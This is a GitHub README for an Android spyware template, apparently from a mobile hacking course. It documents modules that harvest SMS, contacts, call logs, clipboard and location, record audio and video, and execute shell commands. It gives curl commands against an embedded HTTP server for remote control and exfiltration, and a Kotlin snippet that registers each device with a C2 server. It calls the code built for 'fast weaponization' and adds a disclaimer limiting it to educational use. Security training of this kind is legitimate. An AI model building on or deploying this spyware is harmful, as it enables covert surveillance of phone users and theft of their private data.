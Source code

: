 # 🕵️‍♂️ Spyware Skeleton – Android Offensive Framework
This repository is part of the *Offensive Android Programming* course by Mobile Hacking Lab (MHL).

It provides a modular and extensible structure with basic offensive capabilities, intended for educational use and security research in controlled environments.

## 💼 Features
- 📞 Retrieve Call Logs  
- 📇 Access Contacts  
- 📋 Extract Clipboard Data  
- 💬 Read SMS  
- 🎙️ Audio Recording  
- 📹 Video Recording  
- 📍 Get Location Data  
- 🧪 Execute Shell Commands  
- 🌐 Embedded HTTP Server (NanoHTTPD)

## 🌐 Local Web Server
A built-in `NanoHTTPD` server runs on port `1234` inside the `MyForegroundService`. This allows **remote data exfiltration and control via HTTP**.

### Endpoints:
| Method | Path | Description |
|--------|------|-------------|
| `GET` | `/?command=GET_CONTACTS` | Dump all contacts |
| `GET` | `/?command=GET_CALL_LOGS` | Dump call history |
| `GET` | `/?command=GET_SMS` | Retrieve all SMS |
| `GET` | `/?command=GET_CLIPBOARD` | Get current clipboard |
| `GET` | `/?command=GET_LOCATION` | Get last known location |
| `POST` | `/?command=EXECUTE` | Execute shell command |
| `POST` | `/?command=AUDIO_RECORD` | Start audio recording |
| `GET` | `/?command=AUDIO_STOP` | Stop and download last audio |
| `POST` | `/?command=VIDEO_START` | Start video recording |
| `GET` | `/?command=VIDEO_STOP` | Stop and download last video |

### 🐚 Shell Command Execution (Example):
```bash
curl -X POST \
  -H "Content-Type: application/json" \
  -d '{"cmd":"whoami"}' \
  http://<DEVICE_IP>:1234/?command=EXECUTE
```
### 🎙️ Start Audio Recording:
```bash
curl -X POST http://<DEVICE_IP>:1234/?command=AUDIO_RECORD
```
### 🎙️ Stop and Download Audio:
```bash
curl -X GET http://<DEVICE_IP>:1234/?command=AUDIO_STOP --output dump.3gp
```
### 📹 Start Video Recording (Front or Back):
```bash
curl -X POST \
  -H "Content-Type: application/json" \
  -d '{"cameraDirection":"front"}' \
  http://<DEVICE_IP>:1234/?command=VIDEO_START
```
### 📹 Stop and Download Video:
```bash
curl -X GET http://<DEVICE_IP>:1234/?command=VIDEO_STOP --output video.mp4
```

## CONFIGURATION
### ✅ Network Security
To allow HTTP communication on newer Android versions (API 28+), create the following file:
`res/xml/network_security_config.xml`
```XML
<?xml version="1.0" encoding="utf-8"?>
<network-security-config>
    <domain-config cleartextTrafficPermitted="true">
        <domain includeSubdomains="true">192.168.1.97</domain> <!-- 🔁 Replace with your C2 server IP -->
    </domain-config>
</network-security-config>
```
And reference it in your manifest:
```XML
<application
    android:networkSecurityConfig="@xml/network_security_config"
    ... >
```
### 🔁 Notify Your C2 Server
The app will periodically notify your remote server with its IP and port:
`Server.kt`
```Kotlin
private fun notifyFlaskServer() {
    val ip = getLocalIpAddress()
    val url = "http://192.168.1.97:4444/register" // 🔁 Change this
    val payload = JSONObject().apply {
        put("ip", ip)
        put("port", "1234")
    }
    ...
}
```
Update the IP and port to match your Flask or custom C2 server.

## 🧠 Structure
The code is organized under com.lautaro.spyware, with clean modules and retrievers:

    GetSms, ContactsRetriever, CallLogsRetriever, etc.

    ShellCommandExecutor, AudioRecorder, VideoRecord

    MyForegroundService + Server.kt (embedded HTTP server)

All designed for modularity, reusability and fast weaponization.

## 🚀 Usage
1 - Import the project into **Android Studio**
2 - Deploy to a test device (emulator or real)
3 - **Trigger any component manually or via HTTP**

This repository is meant to be a template/skeleton, not a standalone spyware app. Extend it freely.

## ⚠️ Disclaimer
**This project is intended strictly for educational and ethical hacking purposes**.
Do not deploy or use this code against any device or user without explicit consent.
**The authors are not responsible for any misuse**.
